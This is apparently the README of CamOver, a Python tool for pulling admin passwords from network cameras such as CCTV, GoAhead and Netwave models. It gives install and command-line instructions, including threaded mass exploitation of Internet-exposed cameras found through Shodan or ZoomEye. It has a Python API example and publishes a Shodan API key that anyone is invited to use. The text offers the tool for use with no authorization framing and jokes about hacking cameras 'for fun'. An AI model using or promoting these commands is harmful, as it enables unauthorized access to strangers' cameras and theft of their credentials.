 # CamOver

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver/forks">
        <img src="https://img.shields.io/github/forks/EntySec/CamOver?color=green">
    </a>
    <a href="https://github.com/EntySec/CamOver/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/CamOver?color=yellow">
    </a>
</p>

CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

## Features

* Exploits vulnerabilities in most popular camera models such as `CCTV`, `GoAhead` and `Netwave`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Basic usage

To use CamOver just type `camover` in your terminal.

```
usage: camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]
               [--zoomeye ZOOMEYE] [-p PAGES]

CamOver is a camera exploitation tool that allows to disclosure network camera
admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

**Exploiting single camera**

Let's hack my camera just for fun.

```shell
camover -a 192.168.99.100
```

**Exploiting cameras from Internet**

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```shell
camover -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own,
be free to use all our resources for free :)

**Exploiting cameras from input file**

Let's try to use opened database of cameras with `-t` for fast exploitation.

```shell
camover -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords
to `passwords.txt`.

## API usage

CamOver also has their own Python API that can be invoked by importing CamOver to your code.

```python
from camover import CamOver
```

### Basic functions

There are all CamOver basic functions that can be used to exploit specified camera.

* `exploit(address)` - Exploit single camera by given address.

### Examples

**Exploiting single camera**

```python
from camover import CamOver

camover = CamOver()
creds = camover.exploit('192.168.99.100')

print(creds)
```
